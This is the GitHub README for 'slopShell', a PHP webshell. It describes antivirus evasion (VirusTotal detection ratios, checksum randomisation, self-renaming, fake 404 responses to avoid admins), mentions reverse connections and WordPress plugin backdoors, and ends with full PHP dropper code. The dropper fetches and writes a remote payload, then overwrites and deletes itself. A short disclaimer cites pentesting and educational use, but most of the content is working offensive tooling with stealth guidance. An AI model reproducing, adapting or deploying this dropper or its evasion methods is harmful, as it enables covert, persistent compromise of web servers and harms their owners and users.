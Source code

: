 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell (the client script is the 100% best way to communicate with this shell). 


Thank you for all the support the community has given, it means alot to us. Now for things that will be added to this shell, to make it even more awesome. 

 - Mutual TLS, with the ability to generate a CA on the fly(if thats possible) 
 - More refined dropper/shell itself, to ensure that the shell will not be stumbled upon for prolonged access.
 - Future edititions of this will have access to a personal database of cloud entities, its bascially a personal shodan of mine. Fee will be required for this(sorry).


Current VT Detection ratio: 2/59 (most new version)

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/fbec31525f79578305d67847183dbef7c7a64b431aef81fd59aadfbaa10461c5/detection)


Current VT Detection ratio (obfuscated version): 1/59 //This is a refined version of the slimmed down dropper. the overall file length is just under 2kb in size. Slopshell now correctly assigns a randomized useragent with a correct useragent value, that is, an actual useragent like mozilla,opera,chrome,chromium, etc.

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/46920e27a685d707cb82f23c6c76dd3705d6ec9c96b398828d57791bed7af059/detection)

~~__The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.__~~

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-dev && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear python3-pip php-readline php-curl libsodium libsodium-devel && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

You need to cd into `/lib/` and run `composer install` to install the server side depends that will be required for the client to work. The client now runs much faster than before. 

---
# Credits for the execution methods

You may notice these are a reskin of another Wordpress backdoor, and once i find the repo again, [i will make sure to give credit for the execution of commands function that is present in these shells](https://github.com/leonjza/wordpress-shell/blob/master/shell.php#L47). I do not like to rip off code and believe that credit needs to be given where credit is due. Thank you kind sir, you have helped me quite a bit with this by making your scripts available to the public.

---
## What makes this shell unique?

So, while doing some changes, i thought heck why not add in a way for the ACTUAL shell itself to hide itself from a less than observant admin. Cleaned up the code execution methods, cleaned up the whole script. No longer will it display a fake 500 page, as this attracts too much attention from an observent admin (more so from my time as an admin of a php dev stack on a server) 500 error messages attract a lot of attention, which will mean the shell is more likely to be discovered. A 404 response however, is much less likely to draw in the gaze of the server admin. Making this shell itself much more difficult to detect and find, in addition to the changing filename, finding this shell will be an absolute nightmare. User-Agent customization is still something that will need to be done, or a unique cookie value will need to be used in place of the User-Agent value that however, will not be set by myself and i will let more experienced users customize this shell to their hearts content. Again, if you notice any issues, or any shortcomings(most i have fixed, and have updated this shell to PHP8 for the most part, type hints i still cannot add in and this is for backwards compatibility reasons) please do open an issue and let me know what is wrong, and i will see about fixing it. Thank you, do good fight evil, have fun.

Here is what I was able to come up with for the added evasive routines:
 - The shell will dynamically rename itself (this did break the client for now, I have so many things to change in the client, but this is just a pet project of mine.)
 - The original file will be deleted after it is written to disk the script now also adds a random comment at the top of the file, completely changing the checksum of the file, making signature based detection scanning much more difficult, not polymorphic, would be nice if this can be done in php. May write an additional function to randomize the location of the functions and adds random functions at random locations.
 - The value of the old file and the new file name will be reported back to the user in a header.
 - The shell now response HTTP 404 to everything, even valid requests. (another reason the client script is broken.)
 - Still working on the MTLS portions of the client and shell script.
 - I named it something different than i normally do.
 - Remapped some of the extra functions to fire off by default now, IE OS detection.
 - Added the ability for the script (if the directory is writable) to create a hidden folder for the shell to store the uploaded goodies to, and then reference.
 - Still working on dynamic loading and execution of uploaded scripts.

As I have grown in the language of PHP so will this whole project and the classes will become proper classes, with namespaces and all. Just need some time as i fix the code to more common standards of PHP development. ~~I will likely add in a way to package this shell itself as a WordPress plugin, so that way it can be used in wordpress as well.( a proper plugin at that.)~~ The client now makes proper wordpress plugins, which hook the init function of the wordpress site. I have not tested this fully, so if there are any issues at all, please feel free to open a new issue and describe the problem you are having.

---
## Images of use cases

Client script usage:
![](https://github.com/oldkingcone/slopShell/blob/master/images/client_usage.png?raw=true)

Reverse Connection initiated from the client script:
![](https://github.com/oldkingcone/slopShell/blob/master/images/reverse_connection_client_script.png?raw=true)


---
## Additional

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.

## Slimmed down dropper example: 
```
/* These comments are not present in the actual dropper, these are here to explain what this is doing.*/
<?php
http_response_code(404);
# pre shared values that only the operator of this shell will have. This dropper will be split into 3 parts to include system enumeration.
if (isset($_COOKIE['6e3611c0032725']) && $_SERVER['HTTP_USER_AGENT'] === 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36(d9e1cee219f19c6d7c)'){
    if (isset($_POST['hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df'])){
        $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df = explode('.', unserialize(base64_decode($_COOKIE['6e3611c0032725']), ['allowed_classes' => false]));
        # Pre-shared value that only the operator has access to through the database.
        if ( hash_equals(hash_hmac('sha256', $_COOKIE['6e3611c0032725'], $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[0]), $hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[1]) ){
            if (function_exists("com_create_guid") === true){
                $CDd5054278c02f = trim(com_create_guid()).PHP_EOL.PHP_EOL;
            }else{
                $70f4adfb6efefe08db = openssl_random_pseudo_bytes(16);
                $70f4adfb6efefe08db[6] = chr(ord($70f4adfb6efefe08db[6]) & 0x0f | 0x40);
                $70f4adfb6efefe08db[8] = chr(ord($70f4adfb6efefe08db[8]) & 0x3f | 0x80);
                $CDd5054278c02f = vsprintf('%s%s-%s-%s-%s-%s%s%s', str_split(bin2hex($70f4adfb6efefe08db), 4)).PHP_EOL.PHP_EOL;
            }
            # returns our needed data back to the server, this is broken into 3 parts, the uuid, the filename of our shell/enumeration script, and if we need stealth or not.
            echo $CDd5054278c02f . "_e8a4f6f58c05"."_true".PHP_EOL;
            fputs(fopen('./e8a4f6f58c05.php', 'a+'),base64_decode(file_get_contents($hijkl38d90e848072948699baa3cdfe0ab0bad81866ac696dd729df[2])));
            foreach (file($_SERVER['SCRIPT_FILENAME']) as $line){
            # if this dropper is activated in the correct way, this portion of the script takes less than a second to complete due to the size of this script.
                fwrite(fopen($_SERVER['SCRIPT_FILENAME'], 'w'), openssl_encrypt($line, 'aes-256-ctr', bin2hex(openssl_random_pseudo_bytes(100)), OPENSSL_RAW_DATA|OPENSSL_NO_PADDING|OPENSSL_ZERO_PADDING, openssl_random_pseudo_bytes((int)openssl_cipher_iv_length('aes-256-ctr'))));
            }
            # dropper routine is finished, no need to exist on the system any longer.
            fclose($_SERVER['SCRIPT_FILENAME']);
            unlink($_SERVER['SCRIPT_FILENAME']);
        }else{
            die();
        }
        die();
    }
}else{
    die();
}
```
